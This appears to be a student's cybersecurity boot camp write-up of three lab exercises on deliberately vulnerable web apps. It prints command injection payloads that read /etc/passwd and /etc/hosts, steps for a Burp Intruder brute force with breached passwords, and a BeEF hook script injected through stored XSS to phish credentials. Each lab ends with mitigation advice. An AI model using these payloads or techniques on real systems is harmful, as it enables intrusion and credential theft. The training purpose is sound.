

## Web Application 1: Your Wish is My Command Injection
1.  Complete the following steps to walkthrough the intended purpose of the web application.
    * Access Vagrant and RUN 
      ```bash
         cd ./Documents/web-vulns && docker-compose up
      ```

    * Open a browser and navigate to the following webpage: http://192.168.13.25

    * The web page should look like as the figure below

    * Log in with the following credentials:
      *    Usernmae: admin
      *    Password: password

    * Select the **Command Injection** or access this page directly http://192.168.13.25/vulnerabilities/exec/
    * Entering the IP address `8.8.8.8` press **Submit** to see the results display on the web application.


* Behind the scenes, when we select Submit, the IP you type in the field is injected into a command that is run against the Replicants webserver. The specific command that ran on the webserver is `ping <IP>` and `8.8.8.8` is the field value that is injected into that command.


2.  Now that we have determined that Replicants new application is vulnerable to command injection, we will tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:

      - `/etc/passwd`
   
      - `/etc/hosts`


<details>
<summary> <b> Click here to view Design Command Injection Payloads. </b> </summary>

---

#### How to manipulate the input to cause an unintended result 
   
- In the terminal, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/passwd`
   


- On the same webpage, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/passwd`
   

   
- In the terminal, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/hosts`
   


- On the web browser, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/hosts`
   

   

#### Mitigation Strategies

1. **Input validation** is a method to validate the data input with a predefined logic, ensuring that the input is what the application is expecting. Input validation can be applied on the client-side or the server-side. For example,
   
|          | Function | Example    |
|----------|----------|------------|
| **Client-side**| Input validation involves coding the predefined logic into the webpage.                   | An input can only be chosen from a predefined drop-down menu.     |
| **Server-side**| Input validation involves adding the predefined logic into the code on the web server.    | If a user enters a malicious SQL code and selects submit, then the web server will check and remove it after receiving this malicious input.     |

2. **Avoid Command-Line Calls Altogether** The first prevention method you can do is avoiding command line calls. Because when we’re using command lines, it opens users to risk such as command injection. 
   
3. **Use Built-in APIs Instead of OS Commands** Another method is to shift from using Operating System (OS) commands to much-safer APIs, considering that most reputable APIs have built-in security measures. 
   
4. **Reject Unacceptable Code** We can also use server-level protection, which is blacklisting a set of codes. Simply by only allowing the codes we and our team built prevents any other code from accessing the server. Thus, creating a barrier between the malicious codes and the whole server.
   
5. **Escaping Shell Metacharacters** Also, to prevent any other characters and limit the output of commands, we can use escaping shell metacharacters. This method allows us to expressly grant access depending on the variables. Our developer can set these variables based on our needs.    
   
   
</details>

---


## Web Application 2: A Brute Force to Be Reckoned With
1.  Complete the following steps to walkthrough the intended purpose of the web application.
    * Access Vagrant and RUN 
      ```bash
         sudo burpsuite
      ```

    * Open the Firefox browser and navigate to the following webpage: http://192.168.13.35/install.php.

    * The web page should look like as the figure below. Click **here** to install bWapp.

    * After successfully installing bWapp, log in with the following credentials:
       - Username: bee
       - Password: bug


    * To access the application where we will perform our activity, enter in the following URL: http://192.168.13.35/ba_insecure_login_1.php
    
    * On Firefox browser, make sure the FoxyProxy settings is set to **Burp**.


- This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login:
     - Username: test-user
     - Password: password


* Following was displayed in the Burp Suite in **Proxy** tab under the Intercept - Highlighting the **Login and password** credentials.


* From the web application tool Burp Suite, on the **Intercept** tab, right click anywhere to send the information to **Intruder** 
 
   -  Select the **Intruder** tab, and verify the Target tab


   -  Select the **Positions** tab and change the attack type to **Cluster bomb**, also **clear** all payload positions, except for the login and password credentials.


* We've been provided with a list of administrators and the breached passwords:
* [ ] [List of Administrators](listofadmins.txt)
* [ ] [Breached list of Passwords](breached_passwords.txt)


<details>
<summary> <b> Click here to view How to conduct a brute force attack. </b> </summary>

---


#### How to conduct a brute force attack against a web application login page with the Burp Intruder function 
   
* Select **Payloads** tab and enter the [List of Administrators](listofadmins.txt) file that provided above into the **Payload Options [Simple list]** for Payload set: 1  


   
- Add the password from the [Breached list of Passwords](breached_passwords.txt) file that provided above into the **Payload Options [Simple list]** for Payload set: 2  
   


- Click the **Start** attack button to get the results.
   


- Results from the analysis that was complete from the Intruder show that there was one successful login username/password combination. 
   

   
- It was user name of **" tonystark"** and the password **"I am Iron Man"**. Below snapshots display the successful login in the **Response** tab.


   

#### Mitigation Strategies

**Developers** can use several mitigation methods to protect against a brute force attack:

   1.) Require complex usernames and passwords:
For example, require the user to include special characters, upper and lowercase, and numbers in the username and password.

   2.) Lockout accounts after a number of failed attempts:
For example, after three failed login attempts, the user's account gets locked.

   3.) Use multi-factor authentication (MFA):
For example, require users to have a password and a secondary form of authentication, like a pin generated by an external token and/or requiring complex usernames and passwords. 
   
   
</details>

---


### Web Application 3: *Where's the BeEF?*

1. Access Vagrant, open the terminal and and run the command

```
sudo beef
```
When prompted for a password, enter `cybersecurity`.

2. This will kick off the BeEF application and return many details about the application to your terminal. We can access to BeEF's User Interface (UI) by right-click the first URL and select Open Link `UI_URL: http://127.0.0.1:3000/ui/panel`. 

   - When the BeEF webpage opens, login with the following credentials:
     - Username: `beef`
     
     - Password: `feeb`

     

   - You have successfully completed the setup when you have reached the **BeEF Control Panel** shown in the image below:

     

3. Prepare the Replicants website, from the Terminal in Vagrant navigate to ~/Documents/web-vulns directory by

```
cd ~/Documents/web-vulns
```
and run the command

```
sudo docker-compose up
```


   - Go to the web browser and enter the following in the address bar `http://192.168.13.25/vulnerabilities/xss_s/` then reset the database and login with the following credentials:
     - Username: `admin`
     
     - Password: `password`
     
     
3. The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`


- The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`. 

- When trying to inject the payload there was an issue found, in the message box field, there was a limit of `maxlength="50"` character in the source code. Therefore we could not inject the payload.


- Solution to solve this issue, right-click on web page < click **Inspector** < In **Inspector windows** scrolling down till we see the `<textarea name="mtxMessage"
cols="50" rows="3" maxlength="50">` then now we can edit from 50 to any bigger number  


Now we are able to hook into Replicants website, so next we will attempt a couple BeEF exploits including:

   - Social Engineering >> Pretty Theft

   - Social Engineering >> Fake Notification Bar

   - Host >> Get Geolocation (Third Party)


<details>
<summary> <b> Click here to view How to Exploiting XSS with BeEF. </b> </summary>

---


#### How to conduct a brute force attack against a web application login page with the Burp Intruder function 

- First, we'll attempt a social engineering exploit to create a fake Log-in to user. We can use this to capture victim credentials.
- To access this exploit, navigate to **BeEF Control Panel** < select current hooked browser < go to **Commands** tab < expanding **Social Engineering** < click **Google Phishing**.
- To launch th exploit, click **Execute** button in the bottom right corner.

   

- After executed, return to the browser that has been changed to a Google Mail Login page.     
   

   
- The victim could easily mistake entering their credentials. Use the following credentials to login to this fake Google Mail page.
   
   
   
- Return to the BeEF control panel, in the center windows we'll see the module history command. Click that command to see the results in the last windows panel.
   
  
   
- As we saw, the username and password have been captured. Now we can try on another method as the following:
   
   - Social Engineering >> Pretty Theft

 
   
 
   
 

   - Social Engineering >> Fake Notification Bar
 

   - Host >> Get Geolocation (Third Party)

   
#### Mitigation Strategies

**BeEF** is an exploitation tool that focuses on a specific client-side application: the web browser. BeEF allows an attacker to inject a JavaScript code into a vulnerable HTML code using an attack such as XSS or SQL injection. This exploit code is known as hook. A compromise is achieved when the hook is executed by the browser. The browser (zombie) connects back to the BeEF application, which serves JavaScript commands or modules to the browser. BeEF's modules perform tasks such as the following:

   1.) Fingerprinting and the reconnaissance of compromised browsers. It can also be used as a platform to assess the presence of exploits and their behavior under different browsers.

   2.) Detecting software on the client (Internet Explorer only) and obtaining a list of the directories in the Program Files and Program Files (x86)directories. This may identify other applications that can be exploited to consolidate our hold on the client.

   3.) Taking photos using the compromised system's webcam; these photos have a significant impact in reports.
   
   4.) onducting searches of the victim's data files and stealing data that may contain authentication credentials (clipboard content and browser cookies)  or other useful information.
   
   5.) Implementing browser keystroke logging.
   
   6.) onducting network reconnaissance using ping sweeps and fingerprint network appliances and scanning for open ports.
   
   7.) Launching attacks from the Metasploit Framework.
   
   8.) Using the tunneling proxy extension to attack the internal network using the security authority of the compromised web browser.
   
Because BeEF is written in Ruby, it supports multiple operating systems (Linux, Windows, and OS X). More importantly, it is easy to customize new modules in BeEF and extend its functionality.
   
There may be both technical recommendations (e.g., applying a particular patch) and non-technical recommendations that address the organization’s processes (e.g., updating the patch management process).

1. Deployment of OS and application patches. Maintaining and updating a patch management program is a necessary component in reducing the attack surfaces. 

2. Security architecture changes. External and Internal networks should be separated by different trust boundaries, with packet filtering controls at the nodes in order to reduce an attacker’s access to sensitive information.

3. Review file permissions and use the least privilege principle.

4. Conduct regular vulnerability assessments. Regular vulnerability assessments are needed for the timely discovery and patching of new previously undiscovered vulnerabilities.
   
5. Defend web applications against the OWASP Top 10 Security Risks - Policy, process, and procedure modifications including deployment of new security technologies.   
   
   
   
</details>

---


---

### Citations and References:

#### General Resources:

- InfoTech News. Command Injection: What It Is And How To Prevent It. [cited 2021 September 29]. Available from: [meterpreter.org](https://meterpreter.org/command-injection-what-it-is-and-how-to-prevent-it/).
- Akshat Khare. Parth Chopra. Rahul Motwani. Web Applications Penetration Testing. Center of Excellence in Cyber Systems and Information Assurance (CoE-CSIA), IIT Delhi. [cited 2021 October 1]. Available from: [cse.iitd.ac.in](https://www.cse.iitd.ac.in/~cs1160315/WebPenetrationTesting.pdf)
- Karen Scarfone (NIST), Murugiah Souppaya (NIST), Amanda Cody (BAH), Angela Orebaugh (BAH). Technical Guide to Information Security Testing and Assessment. NIST National Institute of Standards and Technology. [cited 2021 October 1]. Available from:[nist.gov/publications](https://nvlpubs.nist.gov/nistpubs/Legacy/SP/nistspecialpublication800-115.pdf).
- Robert W. Beggs. Mastering Kali Linux for Advanced Penetration Testing. ISBN 978-1-78216-312-1. Packt Publishing Ltd. [cited 2021 October 1]. Available from: [Mastering Kali Linux for Advanced Penetration Testing 3rd Edition](https://www.amazon.com/Mastering-Linux-Advanced-Penetration-Testing/dp/178934056X)


#### Special thanks:
© Trilogy Education Services, a 2U, Inc., Instructor Jerry and TAs; Matt, Jansen, Micheal.

© The University of Texas at Austin Boot Camp, The Cybersecurity program.

---
